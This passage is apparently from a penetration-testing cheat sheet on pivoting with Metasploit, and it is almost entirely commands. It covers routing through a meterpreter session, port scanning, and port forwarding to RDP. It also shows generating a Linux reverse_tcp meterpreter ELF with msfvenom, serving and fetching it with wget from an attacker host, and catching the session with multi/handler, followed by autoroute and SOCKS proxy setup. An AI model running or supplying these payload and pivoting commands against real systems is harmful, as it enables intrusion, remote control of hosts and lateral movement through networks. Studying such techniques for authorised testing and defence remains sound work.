 ```
# the ip addres and the subnet mask, and then the meterpreter session
route add 192.168.1.101 255.255.255.0 1
```

Now we can run our portscanning module:

```
use auxiliary/scanner/portscan/tcp
```

#### Attack a specific port <a href="#attack-a-specific-port" id="attack-a-specific-port"></a>

In order to attack a specific port we need to forwards it like this

```
portfwd add -l 3389 -p 3389 -r 192.168.1.222
```

```bash
# Reverse Shell generation
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.2.149 LPORT=8080 -f elf --platform linux --arch x64 > reverse.elf
$ python -m http.server --bind 192.168.2.149
$ wget http://192.168.2.149:8000/reverse.elf
$ chmod u+x reverse.elf

# Setup listener
$ msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run
```

```bash
# Autoroute module
msf5 > use post/multi/manage/autoroute
msf5 post(multi/manage/autoroute) > set SESSION 1
msf5 post(multi/manage/autoroute) > set CMD add
msf5 post(multi/manage/autoroute) > set SUBNET 10.42.42.0
msf5 post(multi/manage/autoroute) > set NETMASK /24
msf5 post(multi/manage/autoroute) > set CMD print
msf5 post(multi/manage/autoroute) > run

# On windows you can use post/windows/gather/arp_scanner to discover other machines
# On Linux you can try arp -a

# SOCKS proxy setup
msf5 > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set SRVPORT 1081
msf5 auxiliary(server/socks4a) > run

# Now, equivalent to a dynamic SSH
```
